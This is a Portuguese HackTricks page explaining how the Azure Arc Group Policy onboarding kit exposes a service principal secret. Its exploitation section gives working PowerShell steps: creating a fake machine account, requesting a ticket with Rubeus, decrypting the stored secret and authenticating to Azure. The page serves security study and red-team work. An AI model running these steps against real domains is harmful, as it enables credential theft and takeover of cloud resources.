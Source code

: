 # Az - Script de Implantação de GPO Vulnerável do Azure Arc

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

- Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
- Obtenha o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
- Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

### Identificando os Problemas

O Azure Arc permite a integração de novos servidores internos (servidores de domínio associados) no Azure Arc usando o método do Objeto de Política de Grupo. Para facilitar isso, a Microsoft fornece um kit de ferramentas de implantação necessário para iniciar o procedimento de integração. Dentro do arquivo ArcEnableServerGroupPolicy.zip, os seguintes scripts podem ser encontrados: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando executado, o script DeployGPO.ps1 realiza as seguintes ações:

1. Cria a GPO de Integração de Servidores Azure Arc dentro do domínio local.
2. Copia o script de integração EnableAzureArc.ps1 para o compartilhamento de rede designado criado para o processo de integração, que também contém o pacote de instalação do Windows.

Ao executar este script, os sys admins precisam fornecer dois parâmetros principais: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Além disso, são necessários outros parâmetros, como o domínio, o FQDN do servidor que hospeda o compartilhamento e o nome do compartilhamento. Detalhes adicionais, como o ID do locatário, grupo de recursos e outras informações necessárias também devem ser fornecidos ao script.

Um segredo criptografado é gerado no diretório AzureArcDeploy no compartilhamento especificado usando a criptografia DPAPI-NG. O segredo criptografado é armazenado em um arquivo chamado encryptedServicePrincipalSecret. Evidências disso podem ser encontradas no script DeployGPO.ps1, onde a criptografia é realizada chamando ProtectBase64 com $descriptor e $ServicePrincipalSecret como entradas. O descritor consiste nos SIDs dos grupos Domain Computer e Domain Controller, garantindo que o ServicePrincipalSecret só possa ser descriptografado pelos grupos de segurança Domain Controllers e Domain Computers, como observado nos comentários do script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploração

Temos as seguintes condições:

1. Conseguimos penetrar com sucesso na rede interna.
2. Temos a capacidade de criar ou assumir o controle de uma conta de computador dentro do Active Directory.
3. Descobrimos um compartilhamento de rede contendo o diretório AzureArcDeploy.

Existem vários métodos para obter uma conta de máquina dentro de um ambiente AD. Um dos mais comuns é explorar a cota de conta de máquina. Outro método envolve comprometer uma conta de máquina por meio de ACLs vulneráveis ou várias outras configurações incorretas.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Uma vez que uma conta de máquina é obtida, é possível autenticar usando esta conta. Podemos usar o comando runas.exe com a flag netonly ou usar pass-the-ticket com Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Ao ter o TGT para a conta de nosso computador armazenado na memória, podemos usar o seguinte script para descriptografar o segredo do principal de serviço.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Neste ponto, podemos reunir as informações restantes necessárias para conectar ao Azure a partir do arquivo ArcInfo.json, que está armazenado no mesmo compartilhamento de rede que o arquivo encryptedServicePrincipalSecret. Este arquivo contém detalhes como: TenantId, servicePrincipalClientId, ResourceGroup e mais. Com essas informações, podemos usar o Azure CLI para autenticar como o serviço principal comprometido.

## Referências

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

- Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
- Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
- Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
